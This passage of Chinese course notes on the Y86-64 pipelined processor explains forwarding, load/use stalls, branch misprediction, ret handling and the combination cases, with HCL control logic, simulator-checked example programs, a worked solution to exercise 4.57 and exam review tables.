先说转发的来源（2026 p.38）：E 级的 e_valE（ALU 结果，配对 e_dstE，这样条件传送失败时不会转发）；M 级的 m_valM（load 读出的数据）与 M_valE（ALU 结果）；W 级的 W_valM 与 W_valE。优先级（2026 p.37）是“取流水线里最早的那一级”：先看 E，再看 M，最后看 W——因为越早的级装着程序顺序里越新的指令。教材图 4.59 的例子是 irmovq $10,%rdx、irmovq $3,%rdx、rrmovq %rdx,%rax：第 4 周期译码级同时看到 E 级的 e_valE = 3 和 M 级的 M_valE = 10，必须选 E 级的 3；模拟器验证最终 %rax = 3、%rdx = 3。五个来源及其配对寄存器号见 11.6 节的表 14，d_valA 的完整 HCL 也在那里，这里不再重复。
看一个具体的例子（2026 p.35，demo-h2 的第 6 周期）：irmovq $3,%rax 在 W 级（W_dstE = %rax、W_valE = 3），addq %rdx,%rax 在 D 级（srcA = %rdx、srcB = %rax）。此时 %rdx 已经在上一个周期末写回，D 级从寄存器文件读到 valA = R[%rdx] = 10；valB 则从 W 级转发 W_valE = 3。addq 得到 13，不需要任何停顿。另一个例子（2026 p.36）：%rdx 的值由上一条指令的 ALU 在前一周期算出，从 M 级转发；%rax 的值正在 E 级算出，直接从 E 级转发——两个值都在“还没写回”的时候被送到 D 级。各种距离下转发能不能救场，见表 37（1（4）的距离判据表，最后一列就是 load 结果的处理）。
这样做的效果是：demo-h0 的三次停顿全部消失，四条指令 8 个周期完成、结果 13 正确（模拟器 mode=pipe，cycles = 8）；demo-h2 里的两条 nop 变成多余（带 nop 时是 10 个周期）。转发的代价是硬件：每个源操作数要加一个多路选择器和若干条从 E、M、W 到 D 级的 64 位走线，还要保证优先级正确；另外转发解决不了加载/使用——值在 D 级末尾还没从存储器出来——那需要停一拍，见下一小节。
2（6）基于课件第 42 页及后续几页，解读 Load-use 相关产生场景和解决方案。
课件程序 demo-luh（2026 p.41，即教材 prog5）就是 11.7 节开头那段 7 条指令的程序，这里直接看第 7 周期为什么转发救不了它。
第 7 周期，mrmovq 在 E 级、addq 在 D 级。addq 必须在第 7 周期末（译码级结束之前）拿到 %rax；而 %rax 是 load 的结果，要到第 8 周期 mrmovq 进入 M 级、数据存储器的输出 m_valM 稳定时才出现。此时 E 级能转发的只有 e_valE，而那是 mrmovq 算出的地址 128，不是数据；M、W 级没有相关指令，所以转发救不了——这就是加载/使用（load-use）冒险。2025 p.42 的展开图里，D 级的 valB 读到的还是 R[%rax] = 0，标着 Error。
解决办法是停顿一拍（2026 p.42）：把 addq 在 D 级钉住一个周期，同时向 E 级注入气泡；下一周期 mrmovq 到了 M 级，m_valM 已经稳定，转发逻辑把它送进 addq 的 valB，addq 随即进入 E 级。检测条件就是 11.7 节那一行 load_use（E_icode ∈ {IMRMOVQ, IPOPQ} 且 E_dstM ∈ {d_srcA, d_srcB}），动作（F stall、D stall、E bubble）见表 16 与 11.11 节的表 24。
逐拍来看：第 7 周期检测到加载/使用（E 级是 mrmovq、E_dstM = %rax 匹配 D 级的 srcB），于是第 7 周期末 D 保持 addq、E 装入气泡；第 8 周期 mrmovq 进入 M 级，数据存储器给出 m_valM = M[128] = 3，译码级的转发逻辑把它选作 addq 的 valB，随 addq 一起进入 E 级；第 9 周期 addq 执行，得到 10 + 3 = 13。整个程序 7 条指令、1 个气泡，共 12 个周期（模拟器：cycles = 12，%rax = 13、%rdx = 128、%rbx = 10、%rcx = 3，内存 M[128] = 3 由前面的 rmmovq 写入）；关键周期的转发来源见 11.7 节的表 17。
顺带一个反例：模拟器的“只转发、不做加载互锁”模式跑同一个程序只要 11 个周期，但 addq 的 valB 取到的是旧的 R[%rax] = 0，结果 %rax = 10（错）——可见加载/使用必须靠停顿补上这一拍，光有转发不够。代价与边界：加载/使用是唯一还需要停顿的数据冒险，代价是 1 个气泡，CPI = 1 + 气泡数/指令数。有没有办法连这一拍也省掉？教材练习 4.57 的加载转发（load forwarding）在“load 的值只被用作要存进存储器的数据”时可以省掉它（见第三部分）；此外，如果 load 后面紧跟的不是使用者，或者编译器把 load 提前、把使用者推后（指令调度），这一拍也能避开。
2（7）基于课件第 47 页及后续几页，解读转移预测错误的场景和解决方案。
预测策略如下（2026 p.47）：条件转移预测“跳转”（取 valC），call 与 jmp 预测 valC 永远正确，ret 不预测。于是取指级在条件转移的条件还没算出来（要等 E 级）时就按“跳”取了两条目标处的指令。2026 p.46 用设问点出这件事：执行 jne 之后该取哪条？程序 demo-j 见 11.8 节（2026 p.46、p.48 的 jne 程序），这里直接看取消过程。
第 3 周期取到目标指令（0x019），第 4 周期它进入 D 级、同时取到目标后的第二条（0x023）；第 4 周期 jne 在 E 级，e_Cnd = 0（xorq 使 ZF = 1，jne 不成立），检测条件 E_icode == IJXX && !e_Cnd 成立。动作（2026 p.50、p.51；动作表并入 p.59）：F 正常，下一周期把 D 和 E 置为气泡——目标指令在 D 级被换成气泡，目标后的第二条在 F 级被丢弃；同时第 5 周期 jne 已经到 M 级，Select PC 用 M_valA（fall-through 地址 0x00b）取指，所以第 5 周期取到的就是正确的 irmovq $1,%rax。各指令经历的阶段与取消点见 11.8 节的表 18，动作见表 19：F normal、D bubble、E bubble。
为什么可以放心取消？因为这两条指令都还没有产生任何架构状态变化（11.8 节已逐级说明：条件码只在 E 级由 OPq 更新，存储器只在 M 级写，寄存器文件只在 W 级写）。代价是 2 个气泡，也就是两条被浪费的取指槽。恢复后程序继续执行 fall-through 的 irmovq $1,%rax、三个 nop 和 halt，模拟器结果 %rax = 1，而错误路径上的 %rdx、%rcx 都保持 0，与“只执行前 8 条”一致。
2（8）基于课件第 53 页及后续几页，解读 ret 指令带来的影响和解决方案。
ret 的影响在于：它的下一条指令地址来自栈顶（要从数据存储器读出），取指级在取 ret 时不可能知道它；而本设计不预测返回地址，只能等返回地址出来。2026 p.56 专门问了“为什么 ret 不预测”：返回地址的取值几乎不受限制，静态预测无从下手；现代高性能处理器会在取指单元里维护一个返回地址栈（return address stack）来预测 call/ret 配对，但那是额外的硬件，不属于程序员可见状态，也不在本设计里（教材 §4.5.4 的 Aside）。程序 demo-retb 见 11.9 节（2026 p.53），这里直接看它带来的三拍停顿。
关键的三拍是第 5、6、7 周期：ret 分别在 D、E、M 级，取指级被 F_stall 停住，每个周期都重新取同一条指令（ret 的预测 PC 是它的 valP = 0x02b），但这条指令在 D 级被 D_bubble 换成气泡，所以它从来没有被执行。第 8 周期 ret 进入 W 级，Select PC 看到 W_icode == IRET，取 W_valM（从栈里读出的 0x013）作为取指地址，才取回真正的返回点。检测条件就是 11.9 节那一行 ret_hazard（IRET ∈ {D_icode, E_icode, M_icode}），对应的动作（F stall、D bubble）见表 20；关键周期的时序见表 21。
如果不处理会怎样？2025 p.54（2026 p.54）的“错误时序图”显示，ret 之后的三条指令会被顺序执行。图 22 用 p.53 的程序重画了这张图（把模拟器里 ret 的暂停控制关掉后的实际运行结果）：第 5～7 周期取指级按预测的 valP 依次取进 0x02b、0x035、0x03f 三条 irmovq，第 8 周期 ret 到达写回级、Select PC 才改取返回点 0x013，此时三条错误指令已经进入流水线，会照常写回，最终 %rax = 1、%rcx = 2、%rdx = 3，被改坏了；
图 22 不处理 ret 时的错误执行（按课件 p.54 重画，程序为 p.53 的 demo-retb；模拟器运行结果）：红色的三条指令本不该执行，却在 ret 返回之前被取进并执行完毕
而正确处理时它们都被气泡取消，程序最终只有 %rdi = -1、%rsi = 5、%rsp = 0x100，%rax、%rcx、%rdx 仍为 0（模拟器验证）。整条程序 6 条指令、3 个气泡，共 13 个周期。代价是三类特殊情况里最贵的 3 个气泡，这也是高性能处理器愿意花硬件去预测返回地址的原因。
为什么必须用“停顿 + 气泡”，而不能直接在取指级插一个气泡？11.9 节已经解释：取指级每个周期都必须从指令存储器读一条指令，没有“不取”的选项；控制逻辑只能让 F 寄存器保持（stall），并在 D 级把取回的那条指令替换成气泡。
2（9）基于课件第 58 页及后续几页，综合分析 Load-use/转移预测错误/ret 指令对流水线处理器的影响和解决方案，包括 HCL 描述的实现方法。
三类特殊情况的检测条件与动作就是 11.11 节的两张表（表 23、表 24）；课件 2026 p.59（2025 p.58）的两张表逐字相同。第四类特殊情况是异常（11.10 节、教材 §4.5.6、练习 4.41、4.42）：检测条件是 m_stat in { SADR, SINS, SHLT } || W_stat in { SADR, SINS, SHLT }，它不走 F、D、E 三级的 stall/bubble 那一套，而是在 M 级注入气泡（M_bubble）、把 W 级停住（W_stall），保证异常指令之前的状态写完、之后的指令不改状态。
三类情况的控制逻辑 HCL 见 11.11 节（课件 2026 p.60 的初始版本，其中 D_bubble 的修正见 2（10））。逐条说明为什么这样写。F_stall 必须同时覆盖加载/使用与 ret：前者要停住取指、等消费者离开 D 级，后者要停住取指、等返回地址到达 W 级；这两种情况下 F 保持原值，同一条指令被重复取，直到条件解除。D_stall 只对加载/使用置位：只有“消费者要等一个还没从存储器出来的值”时，才需要把消费者钉在 D 级；ret 的处理是“取消后面取进来的指令”，用的是 D_bubble 而不是 D_stall。D_bubble 对“预测错误”和“ret”置位，但必须排除加载/使用，否则组合 B 会出现 stall 与 bubble 同时置位（见 2（10））。E_bubble 对“预测错误”（取消错误路径上已经进入 E 的指令）和“加载/使用”（在 D 停住消费者时，E 级必须补一个气泡，否则后面的指令会插队）置位。除此之外，与异常相关的 set_cc、M_bubble、W_stall 也要一并实现，见 11.10 节。
性能上，三类情况各付固定的气泡数：ret 3 个、加载/使用 1 个、转移预测错误 2 个（教材 §4.5.9）。用 CPI 衡量（CPI = 1 + lp + mp + rp，即 1 加上平均每条指令的气泡数），教材给出的一组典型频率是：加载类指令占 25%、其中 20% 造成加载/使用（lp = 0.25×0.20×1 = 0.05）；条件转移占 20%、其中 40% 预测错误（mp = 0.20×0.40×2 = 0.16）；ret 占 2%（rp = 0.02×1×3 = 0.06）；总惩罚 0.27，CPI = 1.27，见 11.13 节的表 26。可见预测错误是最大的单项损失，减少 CPI 的努力应该首先花在分支预测上（教材练习 4.43：把预测成功率从 60% 提到 65%，mp 降到 0.20×0.35×2 = 0.14，CPI 降到 1.25）。
2（10）基于课件第 62 页及后续几页，解读两种组合情况的产生场景和解决方案。
2026 p.61 先用一句仿 Dijkstra 的话引出问题（“PIPE 的优美与清晰，目前被两朵乌云遮住”），p.62 给出定义：只有两种组合会同时出现。第一种是组合 A，即条件转移“不该跳”（预测错误），而目标处正好是一条 ret；第二种是组合 B，即一条把值装入 %rsp 的 load 后面紧跟着 ret。其他组合互斥：加载/使用需要 E 级是 mrmovq 或 popq，预测错误需要 E 级是 jXX，两者不可能同时；ret 的三种位置里，只有 ret 在 D 级时才可能与 E 级的 jXX 或 load 冲突（教材图 4.67 的系统性分析）。
先看组合 A（2026 p.63）：把两行动作叠加——ret 行要求 F stall、D bubble，预测错误行要求 F normal、D bubble、E bubble，合起来是 F stall、D bubble、E bubble，动作合并见 11.12 节的表 25。这里不需要额外逻辑，因为预测错误的 D_bubble、E_bubble 已经会把目标处的 ret 取消掉；F 被 stall 也无所谓，因为下一周期 Select PC 会用 M_valA（jne 在 M 级的 fall-through）修正 PC。测试程序就是 11.12 节那段组合 A 程序（教材练习 4.37 的精简版：不跳的条件转移 + 目标处的 ret），模拟器验证（demo-comboA）：11 个周期正常 halt，%rax = 1、%rsp = 0x40。第 5 周期两个条件同时出现（mispred = 1、ret = 1），控制逻辑置 F_stall = 1、D_bubble = 1、E_bubble = 1：目标处的 ret 在 D 级被气泡取消，目标后的 irmovq $7,%rdx 在 F 级被丢弃；第 6 周期 jne 进入 M 级，Select PC 用 M_valA = 0x015 取回 fall-through 的 irmovq $1,%rax。错误路径上的两条指令都没有改状态。这里要指出 2025 p.63 的说明“PC selection logic will be using M_valM anyhow”有笔误：修正 PC 用的是 M_valA（该页图上 Select PC 的两个修正输入正是 M_valA 与 W_valM，见图 21 或 11.2 节图 5 中的②③），2026 版已把这句改写为“JXX nullifies ret in EXE; No additional logic is needed!”。
再看组合 B（2026 p.64、p.65）：一条 load 把值写进 %rsp，紧接着 ret。ret 需要 %rsp 在 D 级读出（srcA = %rsp）来算栈顶地址，于是加载/使用与 ret 两个条件同时成立：ret 行要求 D bubble，加载/使用行要求 D stall。如果两条规则各自生效，D 寄存器会同时收到 stall 和 bubble，这在硬件上是非法组合——教材 §4.5.8 明确把“stall 与 bubble 同时置 1”视为错误，模拟器也会报“D stall and bubble both set”并给出不确定状态。正确的做法是让加载/使用优先：D 级停住 ret（D_stall），E 级注气泡；等 load 的值可以转发之后，ret 再继续走。修正后的 D_bubble 就是在 ret 项上加一个“且不是加载/使用”的条件（2026 p.66，HCL 见 11.12 节），动作叠加见表 25。
组合 B 的测试程序与 11.12 节相同（教材练习 4.38 的同类写法：先用 popq %rsp 把栈顶的值直接装入 %rsp，再执行 ret），模拟器验证（demo-comboB）：修正版 17 个周期正常 halt，%rax = 0x110、%rdx = 9、%rbx = 0x40、%rsp = 0x118，内存 M[0x100] = 0x110、M[0x110] = 0x40。第 8 周期 load_use = 1 且 ret = 1，但 D_bubble 被加载/使用条件屏蔽，控制信号是 F_stall = 1、D_stall = 1、E_bubble = 1，ret 在 D 级多停一拍之后继续；改用初始版 D_bubble 时，同一个周期 D_stall 与 D_bubble 同时为 1，模拟器报“D stall and bubble both set”，程序虽然能跑完（14 个周期）但结果错误：%rsp = 0x110、%rdx = 0。这正是课件所说“最初版本有一个微妙 bug”的直接证据：普通程序几乎不会出现“load 到 %rsp 后立刻 ret”，只靠随机测试很难发现，必须做系统性的组合分析。
第三部分 作业题解答：4.57#
4.57 加载转发（A 小题）#
4.57（A）在我们的 PIPE 设计中，只要一条指令从存储器读出值装入寄存器、紧接着的指令把这个寄存器当作源操作数，就会产生停顿。当第二条指令只是把这个值存入存储器（例如 rmmovq、pushq）时，这个停顿其实不必要。请写出检测 load/use 冒险的逻辑表达式，使得可以使用加载转发（load forwarding）的情况不再停顿。
题目给的两段代码是 mrmovq 0(%rcx),%rdx 后接 pushq %rdx（第 1、2 行），以及 popq %rdx 后接 rmmovq %rax,0(%rdx)（第 4、5 行）。正常 PIPE 的 load-use 停顿（2（6））之所以必要，是因为消费者在译码级末尾就需要这个值，而 load 的数据要到下一周期（load 进入 M 级）才从数据存储器出来。但如果消费者是 rmmovq 或 pushq，它用到加载值的地方是访存级：要写进存储器的数据 Mem. data 来自 valA。时间上正好对得上——load 在 E 级、消费者在 D 级的那一拍之后的下一拍，load 进入 M 级、数据出现在 m_valM 上，消费者进入 E 级；只要在“进入 M 级”的路径上加一个旁路，把 m_valM 选进 M 寄存器的 valA 字段（教材图 4.70 里标着 Fwd A 的二选一：当 M 级是 load 且 M_dstM 等于 E 级消费者的 srcA 时选 m_valM，否则选 E_valA），消费者下一拍在 M 级就能把正确的数据写进存储器，完全不需要停顿。
哪些情况能转发、哪些不能，取决于加载值被用作什么，见表 40。判断的关键是“这个值在哪一级被用”：作为 Mem. data 是在 M 级用，可以等；作为地址（基址、栈指针）或 ALU 操作数是在 E 级用，等不了。
表 40 加载值的使用方式与能否加载转发
| 消费者 | 加载值所在源寄存器 | 在哪一级被用、做什么 | 能否加载转发 |
|---|---|---|---|
| pushq %rX（rX 为 load 的目的寄存器） | srcA | M 级：作为写入存储器的数据 | 能 |
| rmmovq %rX, D(%rY)（rY 不等于 rX） | srcA | M 级：作为写入存储器的数据 | 能 |
| rmmovq %rX, D(%rX)（同一寄存器又是基址） | srcA 与 srcB | E 级：srcB 要参与地址计算 | 不能，必须停顿 |
| OPq 用 rX、mrmovq D(%rX) 等 | srcA 或 srcB | E 级：参与 ALU 运算或算地址 | 不能，必须停顿 |
| load 的目的寄存器是 %rsp，后接 pushq/popq/ret | srcB | E 级：栈指针参与地址计算 | 不能，必须停顿（组合 B） |
于是修改后的检测条件只要在原条件上“减去”可以转发的那一种情况：
bool load_use_hazard =
# 一条 load 在 E 级，且它要写的寄存器是 D 级指令的源操作数
E_icode in { IMRMOVQ, IPOPQ } && E_dstM in { d_srcA, d_srcB }
# 例外：消费者只用这个值作为要存进存储器的数据，可以加载转发
&& !(d_icode in { IRMMOVQ, IPUSHQ }
&& E_dstM == d_srcA # 值从 A 口读出，作为 Mem. data
&& E_dstM != d_srcB); # 且没有被同时当作地址 / 基址 / 栈指针这个条件还有一种等价的写法，含义更直白：E_icode in { IMRMOVQ, IPOPQ } && (E_dstM == d_srcB || (E_dstM == d_srcA && D_icode not in { IRMMOVQ, IPUSHQ }))——只要加载值被当作地址（srcB，含 %rsp），就必须停顿；只有当它从 A 口读出、且消费者是 rmmovq/pushq 时，才允许放行。两种写法可以逐项对照，结果完全一致。三个子句逐条说明。第一段 E_icode in { IMRMOVQ, IPOPQ } && E_dstM in { d_srcA, d_srcB } 就是原来的 load/use 条件：只有 load（mrmovq、popq）在 E 级、它的目的寄存器出现在 D 级指令的 srcA 或 srcB 上，才可能有冒险。第二段 d_icode in { IRMMOVQ, IPUSHQ } 限定消费者是“把数据存进存储器”的两条指令，并且 E_dstM == d_srcA 说明这个值确实从 A 口读出、作为 Mem. data（pushq 的 rA、rmmovq 的 rA），而不是被当作地址。第三段 E_dstM != d_srcB 排除“同一个寄存器又被当作基址或栈指针”的情况：例如 rmmovq %rdx,0(%rdx)（%rdx 同时是数据和基址，地址必须在 E 级算出来），以及“load 写 %rsp 后紧跟 pushq/popq/ret”（srcB = %rsp，栈指针要在 E 级参与地址计算，这正是 2（10）的组合 B）。少了最后这个子句，程序就会在需要地址的时候才拿到值，算出错误的地址。
接下来用两个程序对比周期数（模拟器：lf=False 表示原始 PIPE，lf=True 表示加了加载转发的版本）。程序 P1 把题目的第 1～5 行连同中间的 nop 放进同一个程序：前半段是可以用加载转发的 pushq，后半段是不能用的 rmmovq；程序 P2 只保留第 4、5 行，单独观察“加载值被当作地址”这一类。
# P1：题目的第 1~5 行（含中间的 nop）+ 初始化
irmovq Stack,%rsp
irmovq $0x80,%rcx
irmovq $0x60,%rax
rmmovq %rax,0(%rcx) # M[0x80] = 0x60
mrmovq 0(%rcx),%rdx # Load 1：%rdx = 0x60
pushq %rdx # Store 1：值只在 M 级用（可以用加载转发）
nop
popq %rdx # Load 2
rmmovq %rax,0(%rdx) # Store 2：%rdx 要当地址（不能用加载转发）
halt
.pos 0x100
Stack:
# P2：只保留题目的第 4、5 行
irmovq Stack,%rsp
irmovq $0x110,%rax
rmmovq %rax,0(%rsp) # M[0x100] = 0x110
irmovq $0x60,%rbx
rmmovq %rbx,0x10(%rax) # M[0x120] = 0x60
popq %rdx # Load 2：%rdx = 0x110
rmmovq %rax,0(%rdx) # Store 2：%rdx 是地址
halt
.pos 0x100
Stack:表 41 两个程序在原始 PIPE 与加载转发版下的周期数对比（模拟器实测）
| 程序 | 原始 PIPE | 加载转发版 | 结果（两者相同） |
|---|---|---|---|
| P1：mrmovq → pushq，再到 popq → rmmovq | 16 周期，2 次停顿 | 15 周期，1 次停顿 | %rdx = 0x60；M[0x80] = 0x60、M[0xf8] = 0x60（pushq）、M[0x60] = 0x60 |
| P2：popq → rmmovq（地址） | 13 周期，1 次停顿 | 13 周期，1 次停顿 | %rdx = 0x110；M[0x100] = 0x110、M[0x110] = 0x110、M[0x120] = 0x60 |
两个程序的周期数对比见表 41。P1 里有两个 load-use 场景。第一个在第 7 周期：mrmovq 在 E 级、pushq 在 D 级，原设计检测到 load/use 停一拍，加载转发版判定“加载值只作为 Mem. data 从 A 口使用”，不停顿——第 8 周期 mrmovq 在 M 级，m_valM = 0x60 被送进 pushq 的 valA（转发明细里 valA 的来源标为 m_valM），pushq 随后在 M 级把 0x60 写到 M[0xf8]。第二个在第 11 周期（加载转发版是第 10 周期）：popq %rdx 装入的 %rdx 是下一条 rmmovq %rax,0(%rdx) 的基址（srcB），地址必须在 E 级算出来，而 load 的数据到 M 级才出现，所以无论有没有加载转发都必须停一拍。这就是 P1 从 16 个周期降到 15 个周期、只少一拍的原因。P2 把第 4、5 行单独拿出来，两次运行都是 13 个周期，进一步说明加载转发对这一类相关完全无效。
由此可以得出结论：A 小题只消去一部分停顿——只有当加载值被“存进存储器”时才省掉那一拍；只要这个值要参与地址计算或 ALU 运算（包括 rmmovq 的基址、pushq/popq/ret 的 %rsp、OPq 的操作数、mrmovq 的基址），就必须保留 load-use 停顿。教材原文也是这个意思：第 4、5 行的 popq %rdx; rmmovq %rax,0(%rdx) 用不了加载转发，因为 %rdx 要参与地址计算，在 E 级就需要它。配套的硬件改动是在 E 级到 M 级的 valA 通路上加一个二选一（教材图 4.70 的 Fwd A 块），并在转发逻辑里加入 m_valM 这一路；判优仍然遵循“取最早那一级”的原则。
第四部分 复习速查#
本部分把全讲内容压缩成可以考前快速翻阅的几张表。4.1 节是 PIPE 的结构；4.2 节按“遇到哪种冒险 → 怎样检测、怎样处理”正向整理，控制逻辑全部写成 HCL；4.3 节反过来，按“看到某个控制信号或流水线图上的某种现象 → 可能是哪种冒险”整理，用于读流水线图、判断题和填空题。
4.1 PIPE 一页纸#
表 42 PIPE 的五个阶段
| 阶段 | 做什么 | 本阶段读取的流水线寄存器字段 |
|---|---|---|
| F 取指 | 选 PC（f_pc）、读指令、算 valP、预测下一个 PC（f_predPC） | F: predPC（以及 M、W 级送回的 M_valA、W_valM） |
| D 译码 | 读寄存器，算 srcA、srcB、dstE、dstM；选择转发来源 | D: stat, icode, ifun, rA, rB, valC, valP |
| E 执行 | ALU 算 valE；按 ifun 和条件码算 e_Cnd；OPq 设置条件码 | E: stat, icode, ifun, valC, valA, valB, dstE, dstM, srcA, srcB |
| M 访存 | 读或写数据存储器，得到 m_valM；地址出错时 m_stat = SADR | M: stat, icode, Cnd, valE, valA, dstE, dstM |
| W 写回 | 写寄存器文件的两个端口；把 Stat 报告给外界 | W: stat, icode, valE, valM, dstE, dstM |
表 43 PIPE 的其他要点
| 项目 | 内容 |
|---|---|
| 命名 | 大写前缀 = 流水线寄存器里的字段（D_icode、W_valM）；小写前缀 = 本阶段现算的信号（d_srcA、e_valE、m_stat） |
| PC 预测 | 不改变控制流的指令 → valP；call、jmp → valC；jXX → valC（总是猜跳转，约 60% 正确）；ret 不预测 |
| 三种数据冒险解法 | 插 nop（软件，最多 3 条）；暂停（硬件，最多停 3 拍）；转发（0 拍，只增加旁路） |
| CPI | 1 + lp + mp + rp ≈ 1 + 0.05 + 0.16 + 0.06 = 1.27 |
| 为什么快 | 不是 CPI 小（PIPE 的 CPI 是 1.27，SEQ 是 1），而是时钟周期短约 5 倍 |
4.2 正查：每种冒险怎样检测、怎样处理#
表 44 列出每种冒险在下一个时钟沿对五个流水线寄存器做什么（“—”表示正常装入），下面的代码框是对应的 HCL。为了看清楚，代码框先给三个检测条件单独起了名字（load_use、mispredict、ret_in，以及异常条件 exc）；教材的 pipe-std.hcl 没有这几个中间信号，而是把条件直接写进每个控制信号，两种写法逻辑上完全相同。
表 44 五种冒险与两种组合的检测和处理（F～W 列为下一个时钟沿的动作）
| 情况 | 在哪里检测、条件是什么 | F | D | E | M | W | 代价 |
|---|---|---|---|---|---|---|---|
| 一般的数据冒险 | 译码级：d_srcA 或 d_srcB 等于 E、M、W 级某条指令的目的寄存器 | — | — | — | — | — | 0 拍（转发） |
| 加载/使用 | load_use：E 级是 mrmovq 或 popq，且它的 E_dstM 是 d_srcA 或 d_srcB | stall | stall | bubble | — | — | 1 拍 |
| 转移预测错误 | mispredict：E 级是 jXX 且 e_Cnd = 0 | — | bubble | bubble | — | — | 2 拍 |
| ret | ret_in：D、E、M 级中有 ret | stall | bubble | — | — | — | 3 拍 |
| 异常 | exc：m_stat 或 W_stat 为 SADR、SINS、SHLT | — | — | set_cc = 0 | bubble | stall（W_stat 异常时） | 停机 |
| 组合 A | mispredict 且 ret 在 D 级（ret 是被误取的指令） | stall | bubble | bubble | — | — | 2 拍（ret 被取消） |
| 组合 B | load_use 且 ret 在 D 级（ret 要读刚加载的 %rsp） | stall | stall | bubble | — | — | 1 + 3 = 4 拍 |
# ---- 检测条件（为易读而单独命名）----
bool load_use = E_icode in { IMRMOVQ, IPOPQ } && E_dstM in { d_srcA, d_srcB };
bool mispredict = E_icode == IJXX && !e_Cnd;
bool ret_in = IRET in { D_icode, E_icode, M_icode };
bool exc = m_stat in { SADR, SINS, SHLT } || W_stat in { SADR, SINS, SHLT };
# ---- 流水线寄存器的控制信号 ----
bool F_stall = load_use || ret_in;
bool D_stall = load_use;
bool D_bubble = mispredict || (ret_in && !load_use); # !load_use：组合 B 的修正
bool E_bubble = mispredict || load_use;
bool set_cc = E_icode == IOPQ && !exc; # 异常之后不再改条件码
bool M_bubble = exc; # 异常之后不再写内存
bool W_stall = W_stat in { SADR, SINS, SHLT }; # 异常指令停在 W 级
# F_bubble、E_stall、M_stall、W_bubble 恒为 0
# ---- 取指：预测下一个 PC、选出本周期的 PC ----
word f_predPC = [
f_icode in { IJXX, ICALL } : f_valC;
1 : f_valP;
];
word f_pc = [
M_icode == IJXX && !M_Cnd : M_valA; # 误预测：取 jXX 的下一条（valP 经 valA 传来）
W_icode == IRET : W_valM; # ret：返回地址到 W 级才读出
1 : F_predPC;
];
# ---- 译码：转发（d_valB 与此相同，只是没有第一行）----
word d_valA = [
D_icode in { ICALL, IJXX } : D_valP; # 不是转发：把 valP 传下去
d_srcA == e_dstE : e_valE; # E 级的 ALU 结果
d_srcA == M_dstM : m_valM; # M 级刚读出的内存值
d_srcA == M_dstE : M_valE; # M 级的 ALU 结果
d_srcA == W_dstM : W_valM; # W 级的内存值
d_srcA == W_dstE : W_valE; # W 级的 ALU 结果
1 : d_rvalA; # 没有相关：读寄存器文件
];
word e_dstE = [
E_icode == IRRMOVQ && !e_Cnd : RNONE; # 条件传送不成立：不写，也不转发
1 : E_dstE;
];4.3 反查：看到某个信号或现象，想到哪种冒险#
课件和教材都是从冒险出发讲控制逻辑的，做题时却常常要倒过来想：流水线图上某一级出现了气泡、某个控制信号为 1、某个操作数来自某个转发来源，说明发生了什么？表 45 按控制信号整理，表 46 按转发来源整理，表 47 按流水线图上能直接看到的现象整理。三张表的结论都可以在实验工具的 PIPE 视图中逐周期核对。
表 45 控制信号为 1 时，可能对应哪些冒险
| 信号 | 可能的原因 | 怎样区分 |
|---|---|---|
| F_stall | 加载/使用（数据冒险）；ret 在 D、E、M 级（控制冒险） | 同时 D_stall = 1 → 加载/使用；同时 D_bubble = 1 → ret。组合 A 中 F_stall 也为 1，但下一周期 f_pc 选 M_valA，这次暂停实际上不起作用 |
| D_stall | 只有加载/使用（组合 B 也是因为它） | 唯一只对应数据冒险的控制信号 |
| D_bubble | 转移预测错误；ret（两者都是控制冒险） | 同时 E_bubble = 1 → 误预测；同时 F_stall = 1 → ret；两者都有 → 组合 A。加载/使用同时出现时被 !load_use 压住（组合 B） |
| E_bubble | 转移预测错误（控制冒险）；加载/使用（数据冒险） | 同时 D_bubble = 1 → 误预测；同时 D_stall = 1 → 加载/使用 |
| set_cc = 0（E 级是 OPq） | 异常：M 级或 W 级的指令出了错 | 只有异常会让 OPq 不改条件码 |
| M_bubble | 异常 | 异常指令之后的指令不能写内存 |
| W_stall | 异常指令已经到达 W 级 | 流水线冻结，Stat 停在异常值，程序停机 |
| f_pc = M_valA | 转移预测错误（上一周期在 E 级检测到，jXX 现在在 M 级） | 取的是 jXX 的下一条（不跳转的那一侧） |
| f_pc = W_valM | ret 到达 W 级 | 取的是返回地址处的指令，ret 造成的暂停到此结束 |
表 46 操作数来自哪个转发来源，说明生产者在哪里
| d_valA / d_valB 取自 | 生产者此刻在哪一级、是什么指令 | 说明 |
|---|---|---|
| D_valP | 不是冒险：D 级是 call 或 jXX | call 要把 valP 作为返回地址压栈；jXX 要把 valP 带到 M 级，供误预测时 f_pc 使用 |
| e_valE | E 级：OPq、irmovq、成立的 rrmovq/cmovXX，或 pushq、popq、call、ret（更新 %rsp） | 生产者通常是紧挨着的前一条指令 |
| m_valM | M 级：mrmovq 或 popq 刚从内存读出的值 | 前面隔一条的加载指令，或者加载/使用停一拍之后 |
| M_valE | M 级：与 e_valE 同类的指令 | 生产者通常在前面第 2 条 |
| W_valM | W 级：mrmovq 或 popq | 生产者通常在前面第 3 条 |
| W_valE | W 级：与 e_valE 同类的指令 | 生产者通常在前面第 3 条 |
| d_rvalA（读寄存器文件） | 没有相关，或生产者已经写回 | 生产者在前面第 4 条及更远，或者根本没有 |
表 47 流水线图上的现象与对应的冒险
| 在流水线图上看到 | 对应的情况 | 气泡数 | 例子（讲义的演示程序） |
|---|---|---|---|
| 没有气泡，但放大框显示操作数来自 e_valE、M_valE 等 | 由转发解决的数据冒险 | 0 | demo-h0：addq 的 valA ← M_valE，valB ← e_valE |
| 某条指令在 D 级多待一拍（图中为 D' D'），后一条在 F 级多待一拍（F' F'），E 级出现 1 个气泡 | 加载/使用 | 1 | demo-luh |
| jXX 后面的两条指令被取消（在 D、E 级变成气泡），接着取跳转另一侧的指令 | 转移预测错误 | 2 | demo-j |
| ret 后面那条指令在 F 级连续出现 3 次（F' F' F'）后被取消，D 级连续 3 个气泡 | ret | 3 | demo-retb |
| 被取消的两条指令中有一条是 ret | 组合 A | 2 | demo-comboA |
| ret 先在 D 级停一拍（E 级 1 个气泡），然后 D 级再连续 3 个气泡 | 组合 B | 4 | demo-comboB |
| 某条指令到达 W 级后，后面的指令再也不写回，程序以 ADR、INS 或 HLT 停机 | 异常 | — | ex-adr-mem、ex-ins |
4.4 易错点清单#
表 48 第 11 讲易错点清单
| # | 易错点 | 正确理解 |
|---|---|---|
| 1 | 流水线让单条指令更快 | 单条指令的延迟变大（320 → 360 ps），变快的是吞吐量 |
| 2 | 三级流水线吞吐量正好是 3 倍 | 320/120 = 2.67 倍，差额是每级 20 ps 的寄存器开销 |
